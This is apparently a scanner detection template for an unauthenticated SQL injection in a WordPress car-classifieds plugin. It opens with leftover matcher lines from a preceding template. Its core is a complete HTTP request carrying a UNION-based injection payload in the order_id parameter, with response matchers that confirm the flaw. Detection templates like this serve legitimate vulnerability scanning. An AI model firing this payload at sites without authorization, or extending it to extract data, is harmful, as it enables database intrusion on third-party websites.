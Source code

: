 - words
  1. Warning: mysqli_num_rows() expects parameter 1 to be
  2. xdebug-error xe-warning
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Car Seller - Auto Classifieds Script - SQL Injection

## Description

- The request_list_request AJAX call of the Car Seller - Auto Classifieds Script WordPress plugin through 2.1.0, available to both authenticated and unauthenticated users, does not sanitize, validate or escape the order_id POST parameter before using it in a SQL statement, leading to a SQL injection issue.
- severity - critical
- tags - cve2021,wordpress,wp-plugin,sqli,wpscan,cve

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

action=request_list_request&order_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a767671,0x685741416c436654694d446d416f717a6b54704a457a5077564653614970664166646654696e724d,0x7171786b71),NULL-- -

```

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. qzvvqhWAAlCfTiMDmAoqzkTpJEzPwVFSaIpfAfdfTinrMqqxkq
- part - body

---